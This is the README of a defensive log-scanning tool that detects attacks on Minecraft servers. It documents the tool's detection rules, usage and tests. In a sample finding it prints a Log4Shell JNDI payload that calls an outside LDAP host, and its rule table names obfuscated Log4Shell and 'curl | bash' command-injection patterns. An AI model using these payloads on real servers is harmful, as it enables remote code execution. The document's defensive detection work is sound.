

# Minecraft server logs security scanner

[](https://github.com/Kra06/minecraft-server-log-scanner/actions/workflows/tests.yml)


A lightweight **log-based intrusion detection tool** for Minecraft servers. Public
servers let anyone connect, which makes them a common target for Log4Shell exploits,
bot floods, brute-force logins, backdoored plugins and crash exploits. `mclogscan`
reads a server's logs, detects these attacks and produces a prioritised incident
report with evidence, MITRE ATT&CK / CVE references and remediation advice.

```
$ mclogscan samples/attack-2026-09-20.log
 Findings      : 20
                 CRITICAL: 2  HIGH: 8  MEDIUM: 6  LOW: 4
 Top offenders:
   xX_h4ck3r_Xx         risk score 44
----------------------------------------------------------------------
 [CRITICAL] MC-L4S-001  Log4Shell JNDI injection attempt
   When     : 2026-09-20 18:05:15   (samples/attack-2026-09-20.log:20)
   Who      : player xX_h4ck3r_Xx
   Evidence : [18:05:15] [Async Chat Thread - #1/INFO]: <xX_h4ck3r_Xx> ${jndi:ldap://45.155.205.233:1389/Exploit}
   Fix      : Update to Minecraft 1.18.1+ (or apply Mojang's Log4j patch), ban the player/IP ...
   Refs     : CVE-2021-44228
```

## Features

- **Two detection engines**
  - **Signature-based**: 14 regex rules in an editable JSON rule pack (like Snort/Sigma rules)
  - **Behavioural**: sliding-window detectors for brute force, bot floods, alt accounts and chat spam (like fail2ban)
- **Parses Vanilla, Spigot, Paper and Forge** log formats, including rotated `.log.gz` files and whole `logs/` folders
- **Reports in text, JSON (for SIEM ingestion) or HTML**
- **CI/cron friendly exit codes**: `0` clean, `1` error, `2` threats found
- **Safe on hostile input**: logs contain attacker-controlled text, so the HTML report escapes everything (no XSS), terminal output neutralises ANSI escape injection, and malformed bytes never crash the parser
- **No dependencies**: standard library only

## What it detects

| ID | Detection | Severity | Maps to |
|---|---|---|---|
| MC-L4S-001 | Log4Shell `${jndi:...}` injection | critical | CVE-2021-44228 |
| MC-L4S-002 | Obfuscated Log4Shell (`${${lower:j}ndi:...}`) | critical | CVE-2021-45046 |
| MC-PRIV-001 | `/op` or wildcard permission grants | high | T1098 Account Manipulation |
| MC-BACKDOOR-001 | Backdoor plugin chat triggers (`#op`, `.console`) | high | T1505 Server Software Component |
| MC-CMDI-001 | Shell command injection (`; curl ... \| bash`) | high | CWE-78, T1059 |
| MC-CRASH-001 | WorldEdit `//calc` crash exploit | high | T1499 Endpoint DoS |
| MC-CRASH-002 | Malformed / oversized packets (crash clients) | high | T1499 Endpoint DoS |
| MC-BEHAV-BRUTE | ≥5 failed logins in 60s | high | T1110 Brute Force |
| MC-BEHAV-FLOOD | ≥10 joins from one IP in 30s (bot attack) | high | T1498 Network DoS |
| MC-ADMIN-001 | Disabling whitelist/logging, unbans | medium | T1562 Impair Defenses |
| MC-GRIEF-001 | `/kill @e`, `//set tnt` | medium | T1485 Data Destruction |
| MC-PHISH-001 | IP-logger / URL-shortener links | medium | T1566 Phishing |
| MC-AUTH-001 | Session verification failure (impersonation) | medium | T1078 Valid Accounts |
| MC-INJ-001 | ANSI escape log tampering | medium | CWE-117 |
| MC-BEHAV-ALTS | Many usernames from one IP (ban evasion) | medium | T1078 Valid Accounts |
| MC-RECON-001 | `/plugins`, `/version` enumeration | low | T1518 Software Discovery |
| MC-HACK-001 | Movement cheats caught by server | low | |
| MC-BEHAV-SPAM | Chat flooding / repeated messages | low | |

## Installation

```bash
git clone https://github.com/Kra06/minecraft-server-log-scanner.git
cd minecraft-server-log-scanner
python3 -m venv .venv && source .venv/bin/activate
pip install -e ".[dev]"
```

## Usage

```bash
mclogscan samples/attack-2026-09-20.log               # coloured text report
mclogscan /path/to/server/logs/                       # scan every log in a folder
mclogscan logs/ -f html -o report.html                # HTML report
mclogscan logs/ -f json -o report.json                # JSON for other tools / SIEM
mclogscan logs/ --min-severity medium                 # hide low/info findings
mclogscan logs/ --fail-on critical                    # exit 2 only for critical findings
mclogscan logs/ --rules my-rules.json                 # use a custom rule pack
python -m mclogscan ...                               # works without installing
```

Example nightly cron job that emails you only when something serious happens:

```bash
0 3 * * * mclogscan /srv/minecraft/logs -f text --min-severity high > /tmp/scan.txt || mail -s "Minecraft security alert" you@example.com < /tmp/scan.txt
```

## Architecture



| Module | Responsibility |
|---|---|
| `parser.py` | Recognises log formats, extracts player/IP/chat/command, handles gzip, bad bytes and midnight rollover |
| `signatures.py` | Loads and **validates** the JSON rule pack, matches rules against entries |
| `detectors.py` | Stateful detectors using a per-key sliding time window (`deque`), with alert de-duplication |
| `scanner.py` | Orchestrates the pipeline and computes per-player risk scores |
| `report.py` | Renders reports with output encoding for attacker-controlled data |
| `cli.py` | Command-line interface and exit codes |

## Writing your own rules

Add an object to `rules/signatures.json` (or your own file passed with `--rules`):

```json
{
  "id": "CUSTOM-001",
  "name": "Advertising another server",
  "severity": "low",
  "category": "Spam",
  "description": "Player is advertising a server address.",
  "pattern": "\\b(?:play|mc)\\.[a-z0-9-]+\\.(?:net|com|org)\\b",
  "event": "chat",
  "fields": ["content"],
  "references": [],
  "recommendation": "Mute the player."
}
```

- `pattern`: a case-insensitive Python regex
- `event` (optional): only match `join`, `leave`, `chat`, `command`, `disconnect`, `other` or `raw` lines
- `fields`: which part of the entry to search: `message` (whole message), `content` (chat/command text only), `raw` (full line) or `player`

Rule files are validated on load, so a bad regex, unknown severity or duplicate ID gives a clear error instead of silently not detecting anything.

## Testing

```bash
pytest -v
```

85 tests cover the parser (all formats, gzip, invalid bytes, rollover), **a true-positive and false-positive test for every rule**, the behavioural thresholds, XSS and escape-injection resistance of the reports, and CLI exit codes. A test fails if any rule is added without a matching positive test.

## Limitations and future work

- Signature detection only catches known patterns; novel attacks need new rules.
- Vanilla logs don't record the IP on every line, so some findings are attributed to a player only.
- Ideas: live monitoring (`tail -f` mode), GeoIP lookups on offending IPs, Discord webhook alerts, exporting rules to Sigma format, detecting suspicious plugin jars.

## Legal

Only scan logs from servers you own or administer. The sample logs contain
simulated attacks and fictional players; IP addresses are for illustration only.
